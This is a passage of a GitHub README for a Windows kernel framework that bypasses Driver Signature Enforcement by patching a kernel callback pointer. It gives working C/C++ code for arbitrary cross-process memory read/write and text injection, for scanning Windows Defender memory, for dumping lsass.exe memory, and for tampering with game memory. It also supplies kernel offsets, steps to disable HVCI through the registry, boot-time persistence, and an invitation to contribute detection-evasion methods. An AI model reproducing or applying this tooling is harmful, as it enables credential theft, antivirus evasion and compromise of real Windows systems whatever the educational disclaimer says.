**Capability 1: Universal Window Title Modification**

Traditional window title modification via `SetWindowText()` can be blocked by target applications. Kernel access bypasses this:


**Demonstrated in OmniUtility:**
```cpp
void AdvancedWindowTitleModifier() {
    // Enumerate all visible windows
    std::vector<WindowInfo> windows;
    EnumWindows(EnumWindowsProc, 0);
    
    // Modify each window title
    for (const auto& win : windows) {
        SetWindowTextW(win.hwnd, L"HACKED BY WESMAR");
        Sleep(30);  // Stagger modifications for visual effect
    }
    
    // Restoration capability maintained
    g_windows = windows;  // Store for later restore
}
```

**Capability 2: Direct Text Injection into Application Buffers**

The framework can inject arbitrary text directly into application memory, bypassing input validation:


**Demonstrated in OmniUtility (Notepad Injection):**
```cpp
void TextBufferInjection() {
    // Locate notepad.exe process
    DWORD notepadPID = FindProcessByName(L"notepad.exe");
    
    // Method 1: Clipboard injection (reliable)
    const wchar_t* payload = 
        L"==============================================\r\n"
        L"    HACKED BY WESMAR\r\n"
        L"    Kernel Driver Text Injection Demo\r\n"
        L"==============================================\r\n";
    
    // Copy to clipboard
    OpenClipboard(nullptr);
    EmptyClipboard();
    HGLOBAL hMem = GlobalAlloc(GMEM_MOVEABLE, wcslen(payload) * 2);
    memcpy(GlobalLock(hMem), payload, wcslen(payload) * 2);
    GlobalUnlock(hMem);
    SetClipboardData(CF_UNICODETEXT, hMem);
    CloseClipboard();
    
    // Simulate Ctrl+V in notepad
    SetForegroundWindow(notepadWindow);
    keybd_event(VK_CONTROL, 0, 0, 0);
    keybd_event('V', 0, 0, 0);
    keybd_event('V', 0, KEYEVENTF_KEYUP, 0);
    keybd_event(VK_CONTROL, 0, KEYEVENTF_KEYUP, 0);
    
    // Method 2: Direct kernel memory write (advanced)
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, notepadPID);
    LPVOID remoteBuffer = VirtualAllocEx(hProcess, nullptr, 1024, 
                                        MEM_COMMIT | MEM_RESERVE, 
                                        PAGE_READWRITE);
    
    // Write via kernel driver
    WriteMemory(notepadPID, remoteBuffer, 
               (LPVOID)payload, wcslen(payload) * 2);
    
    // Verification read
    wchar_t verification[256] = {0};
    ReadMemory(notepadPID, remoteBuffer, 
              verification, sizeof(verification));
    
    std::wcout << L"[+] Verification: " << verification << L"\n";
}
```

**Capability 3: Module Enumeration and Analysis**

The framework can enumerate all loaded modules in any process, extracting base addresses and sizes:
```cpp
void ModuleBaseFinder() {
    DWORD targetPID = FindProcess(L"target.exe");
    
    // Create module snapshot
    HANDLE hSnapshot = CreateToolhelp32Snapshot(
        TH32CS_SNAPMODULE | TH32CS_SNAPMODULE32, 
        targetPID);
    
    MODULEENTRY32W me32 = {sizeof(MODULEENTRY32W)};
    
    if (Module32FirstW(hSnapshot, &me32)) {
        do {
            std::wcout << me32.szModule << L": "
                      << L"0x" << std::hex 
                      << (ULONG_PTR)me32.modBaseAddr
                      << L" (Size: 0x" << me32.modBaseSize << L")\n";
            
            // Can read module memory via OmniDriver
            unsigned char header[256];
            ReadMemory(targetPID, me32.modBaseAddr, 
                      header, sizeof(header));
            
            // Verify PE signature
            if (header[0] == 'M' && header[1] == 'Z') {
                std::wcout << L"  [+] Valid PE module\n";
            }
            
        } while (Module32NextW(hSnapshot, &me32));
    }
    
    CloseHandle(hSnapshot);
}
```

### Practical Applications: Real-World Scenarios

**Scenario 1: Security Research and Vulnerability Analysis**

Researchers can analyze how security products interact with protected processes:
```cpp
// Monitor anti-virus behavior
DWORD avProcessPID = FindProcess(L"MsMpEng.exe");  // Windows Defender

// Attach debugger-like monitoring
while (true) {
    // Read anti-virus memory regions
    MEMORY_BASIC_INFORMATION mbi;
    ULONG_PTR address = 0;
    
    while (VirtualQueryEx(avProcess, (LPVOID)address, &mbi, sizeof(mbi))) {
        if (mbi.State == MEM_COMMIT && mbi.Protect == PAGE_EXECUTE_READ) {
            // Found executable region - potential signature database
            unsigned char buffer[4096];
            ReadMemory(avProcessPID, (LPVOID)address, 
                      buffer, sizeof(buffer));
            
            // Analyze signature patterns
            AnalyzeSignatureDatabase(buffer, sizeof(buffer));
        }
        address += mbi.RegionSize;
    }
    
    Sleep(1000);
}
```

**Scenario 2: Forensics and Incident Response**

Extract memory from protected processes that traditional tools cannot access:
```cpp
// Dump memory from protected system process
DWORD lsassPID = FindProcess(L"lsass.exe");

// Traditional tools fail due to protection
// OmniDriver bypasses protection

HANDLE hFile = CreateFile(L"lsass_dump.dmp", ...);

// Enumerate and dump all committed memory
ULONG_PTR address = 0;
MEMORY_BASIC_INFORMATION mbi;

while (VirtualQueryEx(GetCurrentProcess(), (LPVOID)address, &mbi, sizeof(mbi))) {
    if (mbi.State == MEM_COMMIT) {
        unsigned char* buffer = new unsigned char[mbi.RegionSize];
        
        // Read via kernel driver
        ReadMemory(lsassPID, (LPVOID)address, 
                  buffer, mbi.RegionSize);
        
        // Write to dump file
        WriteFile(hFile, buffer, mbi.RegionSize, ...);
        
        delete[] buffer;
    }
    address += mbi.RegionSize;
}

CloseHandle(hFile);
```

**Scenario 3: Game Modification and Research**

Analyze and modify game mechanics for research purposes:
```cpp
// Locate game process
DWORD gamePID = FindProcess(L"game.exe");

// Find player structure in memory (pattern scanning)
ULONG_PTR playerBase = FindPatternInMemory(gamePID, 
    "\x48\x8B\x05\x00\x00\x00\x00\x48\x85\xC0", 
    "xxx????xxx");

// Read player statistics
struct PlayerStats {
    int32_t health;
    int32_t mana;
    float posX, posY, posZ;
    int32_t level;
    int32_t experience;
} stats;

ReadMemory(gamePID, (LPVOID)(playerBase + 0x120), 
          &stats, sizeof(stats));

std::cout << "Player Health: " << stats.health << "\n";
std::cout << "Position: (" << stats.posX << ", " 
          << stats.posY << ", " << stats.posZ << ")\n";

// Modify for research
stats.health = 1;  // Test low-health game mechanics
WriteMemory(gamePID, (LPVOID)(playerBase + 0x120), 
           &stats, sizeof(stats));
```

**Scenario 4: Protected Process Communication**

Establish communication channels between normally isolated processes:
```cpp
// Create shared memory in protected process
DWORD protectedPID = FindProcess(L"protected.exe");

// Allocate memory in protected process
LPVOID sharedBuffer = VirtualAllocInRemoteProcess(protectedPID, 
    nullptr, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// Write data to protected process
struct Message {
    uint32_t messageType;
    uint32_t dataLength;
    char data[4080];
} msg;

msg.messageType = 0x100;
strcpy(msg.data, "Hello from external process");
msg.dataLength = strlen(msg.data);

WriteMemory(protectedPID, sharedBuffer, &msg, sizeof(msg));

// Protected process can read and respond
// (Requires cooperation or injection of reader code)
```

### Limitations and Constraints

Despite kernel-level access, certain limitations exist:

**Hardware-Level Protections:**

| Protection | Description | Bypass Possibility |
|------------|-------------|-------------------|
| **Secure Boot** | UEFI-level verification | ✅ BYPASSED via DSE patch |
| **TPM** | Hardware-backed attestation | ✅ BYPASSED via DSE patch |
| **Intel SGX** | Encrypted memory enclaves | ⚠️ Cannot access enclave memory |
| **Virtualization** | Hypervisor isolation | ⚠️ Requires hypervisor compromise |

**Kernel Patch Guard (PatchGuard):**

Windows Kernel Patch Protection monitors critical kernel structures:
```
PatchGuard Monitored Elements:
- GDT, IDT, System Service Tables
- Critical kernel code (.text section)
- Certain driver dispatch tables
- MSR registers

Our Technique Status:
✓ Bypasses: Modifies data (function pointer), not code
✓ Stable: SeCiCallbacks table not PatchGuard protected
✗ Limited: Cannot patch kernel .text section directly
```

**HVCI/Memory Integrity:**

When enabled, hypervisor prevents kernel code page modifications:
```
HVCI Protection:
- Kernel code pages marked execute-only
- Data pages marked read/write but not executable
- Prevents runtime code patching

Our Mitigation:
1. Detect HVCI state
2. Disable via registry (requires reboot)
3. RebootGuardian ensures clean state after reboot
4. Patch applied post-reboot with HVCI disabled
```

---

## ⚙️ System Requirements

### Hardware Requirements

| Component | Minimum | Recommended |
|-----------|---------|-------------|
| **Processor** | x64 CPU (Intel/AMD) | Multi-core x64 |
| **RAM** | 4 GB | 8 GB+ |
| **Storage** | 500 MB free space | 1 GB+ for logs/dumps |
| **TPM** | Not required | N/A |

### Software Requirements

**Operating System:**
```
Tested and Verified:
- Windows 11 (Version 25H2)
  - Build 26200 or later
  - All editions (Home, Pro, Enterprise)
  
- Windows 10 (All versions)
  - Correct the Offset_SeCiCallbacks and Offset_SafeFunction values in drivers.ini for your Windows build.  
  - Unverified (trivial offset adjustment required)
  - All editions

Architecture:
- x64 only (64-bit)
- ARM64 not supported (I can implement it by editing vcxproj)
```

**Privileges:**
```
Required:
- Administrator account
- UAC elevation (Run as Administrator)

Acquired Automatically:
- SE_LOAD_DRIVER_PRIVILEGE (for driver loading)
- SE_BACKUP_PRIVILEGE (for registry access)
- SE_RESTORE_PRIVILEGE (for registry modification)
- SE_SHUTDOWN_PRIVILEGE (for HVCI reboot)
```

**System Configuration:**
```
Optional but Recommended:
- Test Signing OFF (not required)
- Secure Boot: Compatible (works with Secure Boot enabled)
- HVCI/Memory Integrity: Automatically handled
  - Detected and disabled if enabled
  - System reboots automatically if needed

Not Required:
- Developer Mode
- Debugging enabled
- Special boot configuration
```

### Version-Specific Offsets

The framework uses hardcoded kernel offsets that are version-specific:
```ini
# drivers.ini - Current Configuration
# Tested on Windows 11 25H2 (Build 26200.8460)

[Patch1]
Offset_SeCiCallbacks=0xF04780      # Windows 11 25H2
Offset_Callback=0x20                # Constant across versions
Offset_SafeFunction=0x69BFD0        # Windows 11 25H2
```

**Adapting to Different Windows Versions:**

To adapt to a different Windows version, extract new offsets from Microsoft's symbol server:
```cmd
REM Download WinDbg from Microsoft Store or SDK

REM Launch WinDbg with kernel debugging
windbg -k

REM In WinDbg command window:
.symfix
.reload

REM Find SeCiCallbacks offset
x nt!SeCiCallbacks
REM Output: fffff800`00f04780 nt!SeCiCallbacks

REM Find ZwFlushInstructionCache offset  
x nt!ZwFlushInstructionCache
REM Output: fffff800`0069bfd0 nt!ZwFlushInstructionCache

REM Calculate offsets (subtract base address shown by lm)
lm m nt
REM Output: start=fffff800`00000000 end=fffff800`01234000 nt

REM Offsets:
REM SeCiCallbacks: 0xfffff80000f04780 - 0xfffff80000000000 = 0xF04780
REM ZwFlushInstructionCache: 0xfffff8000069bfd0 - 0xfffff80000000000 = 0x69BFD0
```

Update `drivers.ini` with new offsets and recompile if necessary.

---

## 🛡️ Safety Features and Fail-Safe Mechanisms

The framework implements multiple layers of protection against system instability and infinite loops.

### Layer 1: Automatic Cleanup on Boot

Every execution of BootBypass begins with cleanup operations:
```c
void __stdcall NtProcessStartup(void* Peb) {
    // ... privilege elevation ...
    
    DisplayMessage(L"BootBypass - Driver/Patch/Rename Manager\r\n");
    
    // FIRST ACTION: Remove artifacts from previous boot
    RemoveThemesDependency();
    RemoveRebootGuardianService();
    
    // Then proceed with HVCI detection and DSE operations
    skipPatch = CheckAndDisableHVCI();
    // ...
}
```

**Guarantees:**
- Executes before any reboot logic
- Uses native API (no dependencies on Windows subsystem)
- Atomic operations (registry changes committed to disk immediately)

### Layer 2: RebootGuardian Self-Destruct

If Layer 1 fails (crash, power loss), Layer 2 activates:
```cmd
REM RebootGuardian service ImagePath command chain:
cmd.exe /c "sc delete RebootGuardian & reg delete HKLM\System\CurrentControlSet\Services\Themes /v DependOnService /f & shutdown /r /t 0 /f"
```

**Execution Trigger:**
- Windows Service Control Manager starts Themes
- Themes dependency on RebootGuardian
- SCM starts RebootGuardian
- Command chain executes immediately

**Chain Breakdown:**
1. `sc delete RebootGuardian` - Remove the service itself
2. `&` - Command separator (continue on success or failure)
3. `reg delete ... /v DependOnService /f` - Remove Themes dependency
4. `&` - Command separator
5. `shutdown /r /t 0 /f` - Immediate forced reboot

**Fail-Safe Properties:**
- Independent of BootBypass state
- Self-removing (no persistence)
- Guaranteed execution by SCM
- Forces reboot to clean state

### Layer 3: State File Validation

Before any patching operation, the framework validates system state:
```c
bool ValidateSystemState() {
    // Check if already patched
    auto currentCallback = ReadMemory64(callbackAddress);
    if (*currentCallback == safeFunction) {
        DisplayMessage(L"Already patched - skipping\n");
        return false;  // Don't patch again
    }
    
    // Check if state file exists and is consistent
    ULONGLONG savedCallback = 0;
    if (LoadStateSection(&savedCallback)) {
        if (savedCallback == *currentCallback) {
            // Consistent state - safe to restore
        } else {
            DisplayMessage(L"Warning: State file inconsistent\n");
            // Prompt user or create new state
        }
    }
    
    return true;
}
```

### Layer 4: Exception Handling in Kernel Operations

All kernel memory operations are wrapped in exception handlers:
```c
__try {
    KeStackAttachProcess(TargetProcess, &apc);
    attached = TRUE;
    ProbeForRead(SourceAddress, Size, sizeof(UCHAR));
    RtlCopyMemory(Buffer, SourceAddress, Size);
    KeUnstackDetachProcess(&apc);
    attached = FALSE;
}
__except (EXCEPTION_EXECUTE_HANDLER) {
    status = GetExceptionCode();
    if (attached) KeUnstackDetachProcess(&apc);
    // Clean recovery - no system crash
}
```

**Protected Against:**
- Invalid memory addresses
- Process termination during operation
- Page faults in target memory
- Access violations

### Layer 5: Registry Backup Before Modification

The deployment script creates automatic backups:
```powershell
# From implementer.ps1
$timestamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFile = "BootExecute_backup_$timestamp.reg"

reg export "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" $backupFile /y
```

**Backup Files Created:**
- `BootExecute_backup_YYYYMMDD_HHMMSS.reg` - Before deployment
- `BootExecute_backup_before_removal_YYYYMMDD_HHMMSS.reg` - Before removal

**Restoration:**
```cmd
REM Double-click .reg file or:
reg import BootExecute_backup_20250106_143022.reg
```

---

## ⚠️ Disclaimer and Legal Notice

### Educational and Research Purpose

This framework is developed and distributed solely for **educational and security research purposes**. It demonstrates advanced Windows kernel internals, security model vulnerabilities, and defensive programming techniques.

**Intended Audience:**
- Security researchers and penetration testers
- Kernel developers and system programmers  
- Academic institutions studying operating system security
- Defensive security teams analyzing attack techniques

**Prohibited Uses:**
- Circumventing software licensing or copy protection
- Cheating in online games or competitions
- Unauthorized access to computer systems
- Malware development or distribution
- Any illegal or unethical activities

### Legal Considerations

**United States:**
```
Relevant Statutes:
- Computer Fraud and Abuse Act (CFAA) 18 U.S.C. § 1030
- Digital Millennium Copyright Act (DMCA) 17 U.S.C. § 1201
- Stored Communications Act (SCA) 18 U.S.C. § 2701

Legal Use Requires:
- Explicit authorization from system owner
- Compliance with terms of service
- Legitimate security research purpose
```

**European Union:**
```
Relevant Regulations:
- Computer Misuse Directive (2013/40/EU)
- GDPR (if processing personal data)

Legal Use Requires:
- Lawful basis for processing
- Authorization from data controller
- Compliance with national implementations
```

**Other Jurisdictions:**
```
Users must comply with:
- Local computer crime statutes
- Anti-circumvention laws
- Contract law (EULAs, ToS)
- Export control regulations
```

### Ethical Guidelines

**DO:**
- Obtain written permission before testing on systems you don't own
- Disclose vulnerabilities responsibly to affected vendors
- Use in isolated lab environments or virtual machines
- Document findings for legitimate research purposes
- Respect privacy and data protection laws

**DO NOT:**
- Use on production systems without authorization
- Distribute modified versions for malicious purposes
- Combine with malware or exploitation frameworks
- Violate software license agreements
- Cause harm to individuals or organizations

### Liability Disclaimer
```
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.

IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER
DEALINGS IN THE SOFTWARE.
```

**Author's Position:**
- The author provides this framework for educational purposes only
- The author does not condone illegal or unethical use
- The author is not responsible for misuse by third parties
- Users assume all legal and ethical responsibility for their actions

### Responsible Disclosure

If you discover vulnerabilities in commercial software using this framework:

1. **Do Not** publicly disclose without vendor notification
2. **Contact** the affected vendor's security team
3. **Allow** reasonable time for patch development (typically 90 days)
4. **Coordinate** disclosure timing with the vendor
5. **Document** findings in a professional, technical manner

**Microsoft Security Response Center (MSRC):**
- Email: secure@microsoft.com
- Website: https://msrc.microsoft.com
- Bug Bounty: https://www.microsoft.com/en-us/msrc/bounty

---

## 📚 Further Reading and Documentation

### Technical Resources

**Microsoft Documentation:**
```
Kernel-Mode Driver Architecture:
https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/

Code Integrity and Driver Signing:
https://docs.microsoft.com/en-us/windows-hardware/drivers/install/driver-signing

Windows Internals (Book):
"Windows Internals, Part 1 & 2" by Pavel Yosifovich, Mark Russinovich
```

**Symbol Servers and Debugging:**
```
Microsoft Symbol Server:
https://msdl.microsoft.com/download/symbols

WinDbg Documentation:
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/

Debugging Tools for Windows:
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools
```

**Building from Source:**
```
Requirements:
- Visual Studio 2022
- Windows SDK 10.0.26200.0 or later
- Windows Driver Kit (WDK) 10.0.26200.0 or later (for OmniDriver only)

Build Instructions:
1. Open *.sln in Visual Studio
2. Build Solution (Ctrl+Shift+B)

Output:
- BootBypass/x64/Release/BootBypass.exe
- drvloader/x64/Release/drvloader.exe
- OmniDriver/x64/Release/OmniDriver.sys

```

---

## 🤝 Contributing and Research Collaboration

### Contributing Guidelines

Contributions are welcome in the following areas:

**Code Contributions:**
- Additional vulnerable driver support (submit drivers.ini configurations)
- Kernel version compatibility improvements (new offset sets)
- Alternative safe callback functions (beyond ZwFlushInstructionCache)
- Enhanced error handling and logging
- Performance optimizations

**Documentation Contributions:**
- Translation to other languages
- Additional use case examples
- Troubleshooting guides
- Video tutorials

**Research Contributions:**
- Novel DSE bypass techniques
- Detection evasion methods
- Kernel security analysis
- Academic papers citing this work

### Submission Process
```
1. Fork the repository
2. Create a feature branch
   git checkout -b feature/new-vulnerable-driver-support
3. Implement changes with clear comments
4. Test thoroughly on multiple Windows versions
5. Document changes in commit messages
6. Submit pull request with detailed description
```

### Research Collaboration

**Academic Research:**
- Citations welcome and encouraged
- Contact for collaborative research opportunities
- Available for technical consultation

**Industry Partnerships:**
- Security vendors: Detection technique discussion
- Microsoft: Responsible disclosure of novel techniques
- Antivirus vendors: Sample sharing and analysis

### Contact Information

**Author:** Marek Wesołowski  
**Email:** marek@wesolowski.eu.org  
**Website:** https://kvc.pl  
**WhatsApp:** +48 607 440 283

**Project Repository:**  
https://github.com/wesmar/KernelResearchKit

**Issue Tracker:**  
https://github.com/wesmar/KernelResearchKit/issues

---

## 📄 License
```
MIT License

Copyright (c) 2025 Marek Wesołowski

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```
---

## 📊 Project Statistics
```
Lines of Code:
- BootBypass (native subsystem application):      ~2,500 lines
- drvloader (C++):            ~1,200 lines
- OmniDriver (Kernel C):        ~800 lines
- OmniUtility (C++):          ~1,500 lines
- Total:                      ~6,000 lines

Files:
- Source files:      15
- Header files:      8
- Configuration:     3
- Documentation:     2
- Total:            28

Supported Windows Versions:
- Windows 10 (1809+)
- Windows 11 (All builds)
- Architectures: x64 only

Tested Configurations:
- Windows 11 25H2 (Build 26200) ✓

```

---

**Last Updated:** 2025  
**Version:** 1.0.0  
**Status:** Active Development

---

<div align="center">

**⚠️ USE RESPONSIBLY • EDUCATIONAL PURPOSE ONLY • AUTHORIZED TESTING ONLY ⚠️**

**[↑ Back to Top](#kernelresearchkit)**

</div>
